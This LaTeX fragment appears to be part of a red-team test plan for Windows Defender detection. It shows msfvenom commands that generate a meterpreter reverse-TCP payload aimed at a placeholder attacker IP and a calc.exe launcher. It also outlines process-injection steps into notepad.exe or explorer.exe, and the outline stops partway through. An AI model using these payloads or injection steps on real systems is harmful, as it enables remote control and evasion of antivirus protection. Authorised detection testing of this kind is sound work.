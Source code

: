 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Technique 4: Process Injection and Memory Manipulation}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To inject shellcode into a running process (e.g., `explorer.exe` or a newly created benign process like `notepad.exe`) and assess detection by Windows Defender.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item \textbf{Metasploit Framework (`msfvenom`):} To generate shellcode (e.g., a reverse TCP shell or a `calc.exe` launcher).
			\begin{verbatim}
				msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f C
				msfvenom -p windows/x64/exec CMD=calc.exe -f python
			\end{verbatim}
			\item \textbf{Custom Injection Script (Python with `ctypes` or PowerShell):} A script to perform the injection (e.g., using `CreateRemoteThread` or other APIs).
			\item \textbf{Target Process:} A common legitimate process like `notepad.exe` or `explorer.exe`.
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Conceptual for DLL/Shellcode Injection):}
		\begin{enumerate}
			\item Generate shellcode using `msfvenom` on the attacker machine.
			\item Transfer the shellcode (e.g., embedded in a Python script or PowerShell script) to the victim machine.
			\item Identify a target process ID (PID) on the victim machine (e.g., launch `notepad.exe` and get its PID).
			\item Execute the injection script on the victim machine, providing the PID and shellcode.
			\item The script would typically:
			\begin{itemize}
				\item Get a handle to the target process (`OpenProcess`).
				\item Allocate memory within the target process (`VirtualAllocEx`).
				\item Write the shellcode into the allocated memory (`WriteProcessMemory`).

\end{itemize}
\end{enumerate}
\end{itemize}
\end{document}
